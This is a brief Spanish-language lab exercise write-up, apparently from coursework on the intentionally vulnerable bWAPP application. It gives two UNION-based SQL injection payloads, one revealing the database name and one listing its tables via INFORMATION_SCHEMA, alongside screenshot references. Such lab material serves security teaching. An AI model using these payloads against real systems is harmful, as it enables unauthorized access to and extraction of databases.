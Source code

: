 ### Ejercicio 22

Captura de pantalla mostrando cómo obtienes en el campo 2 el valor bWAPP. 

```sql
aaa' union select 1,database(),3,4,5,6,7 -- 
```

![](22.1.png)

```sql
kkk' union select 1,table_name,3,4,5,6,7 from INFORMATION_SCHEMA.TABLES where table_schema=database() -- 
```

![](22.2.png)
